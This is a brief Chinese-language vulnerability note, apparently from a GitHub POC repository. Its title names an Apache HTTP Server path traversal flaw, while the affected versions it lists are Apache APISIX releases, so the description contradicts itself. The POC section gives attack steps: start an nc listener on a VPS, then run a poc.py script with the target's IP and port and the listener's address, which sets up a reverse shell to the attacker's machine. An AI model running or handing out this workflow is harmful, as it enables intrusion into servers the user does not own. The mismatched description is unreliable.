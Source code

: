# Apache HTTP Server 路径穿越漏洞
## 影响版本
- Apache APISIX 1.3 - 2.12.1（不包含） 
- Apache APISIX 2.10.0 - 2.10.4 LTS（不包含）
## POC
vps开启nc监听，使用[poc脚本](file/poc.py)  
`python poc.py -t 目标ip -p 服务端口 -L vpsip -P 监听端口`